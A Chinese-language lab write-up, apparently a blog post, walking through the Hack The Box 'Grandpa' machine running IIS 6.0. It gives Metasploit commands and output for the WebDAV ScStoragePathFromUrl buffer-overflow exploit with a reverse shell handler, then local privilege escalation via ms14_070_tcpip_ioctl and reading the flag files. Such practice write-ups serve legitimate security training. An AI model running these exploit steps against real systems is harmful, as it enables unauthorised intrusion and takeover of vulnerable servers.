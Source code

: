 ```yaml
---
title: Grandpa（msf栈溢出）
categories:
- training
tags:
- training
- port 80
- windows
---
```

10.10.10.14

## scan
`80/tcp open  http    Microsoft IIS httpd 6.0`

只开了一个80端口，iis 6.0让我想到了文件解析漏洞

os scan:Running (JUST GUESSING): Microsoft Windows 2003|2008|2000|XP (91%)

## web
anyway，先扫一下web目录吧~~
只有一个images目录，403

信息很少啊，估计是中间件漏洞，于是搜一下IIS 6.0 exploit，以及“microsoftofficewebserver header: 5.0_Pub”

nikto scan result:
```
+ Retrieved dasl header: <DAV:sql>
+ Retrieved dav header: 1, 2
+ Retrieved ms-author-via header: MS-FP/4.0,DAV
+ Uncommon header 'ms-author-via' found, with contents: MS-FP/4.0,DAV

```
注意dav

#### trying1: 远程栈溢出
```
searchsploit iis 6.0
searchsploit -m exploits/windows/remote/41738.py
Microsoft IIS 6.0 - WebDAV 'ScStoragePathFromUrl' Remote Buffer Overflow  
利用失败
```
#### trying2: Microsoft FrontPage匿名登陆
`OSVDB-3233: /postinfo.html: Microsoft FrontPage default file found.`
![1](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-06/1.PNG)
搜索一下Microsoft FrontPage 

auxiliary/scanner/http/frontpage_login

结果
```
[*] 10.10.10.14:80        - http://10.10.10.14/ may not support FrontPage Server Extensions
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
#### 什么是WebDAV？
WebDAV 是 HTTP/1.1 协议的扩展，它允许客户机执行**远程** Web 内容制作操作。WebDAV 是对 HTTP/1.1 协议的扩展，添加了新的 HTTP 方法和标头，支持任意类型的 Web 制作，不仅支持 HTML 和 XML，还支持文本、图形、电子表格等格式。
[Webdav安全配置相关与漏洞利用](https://blog.csdn.net/u014270687/article/details/45798227)

#### trying3: webdav put上传
```
exploit/windows/iis/iis_webdav_upload_asp

[*] Started reverse TCP handler on 10.10.14.13:4444 
[*] Checking /metasploit250598085.asp
[*] Uploading 611136 bytes to /metasploit250598085.txt...
[-] Upload failed on /metasploit250598085.txt [500 Internal Server Error]
[*] Exploit completed, but no session was created.
```
## 获得一个shell
远程栈溢出
![2](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-06/2.PNG)
当时python的exp执行失败，就以为该漏洞不存在==

```
use exploit/windows/iis/iis_webdav_scstoragepathfromurl
set RHOST 10.10.10.14
run
getuid
pwd
sysinfo
```
![3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-06/3.PNG)

## 提权
```
search suggester

[*] 10.10.10.14 - Collecting local exploits for x86/windows...
[*] 10.10.10.14 - 28 exploit checks are being tried...
[+] 10.10.10.14 - exploit/windows/local/ms10_015_kitrap0d: The target service is running, but could not be validated.
[+] 10.10.10.14 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ms14_070_tcpip_ioctl: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ms16_016_webdav: The target service is running, but could not be validated.
[+] 10.10.10.14 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The target service is running, but could not be validated.
[+] 10.10.10.14 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
```
尝试后，成功提权
```
use exploit/windows/local/ms14_070_tcpip_ioctl
set SESSION 3
set LHOST tun0
run
ps 查看进程
cd C:\Documents and Settings\Harry\Desktop
cat user.txt
cd C:\Documents and Settings\Administrator\Desktop
cat root.txt
```
![4](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-06/4.PNG)

## 总结
学习了msf的windows提权：search suggester

control z + y，将meterpreter到后台进程。

sessions -i 3，转到meterpreter

在执行缓冲区溢出时，执行一遍失败是很正常的，多试几遍~~
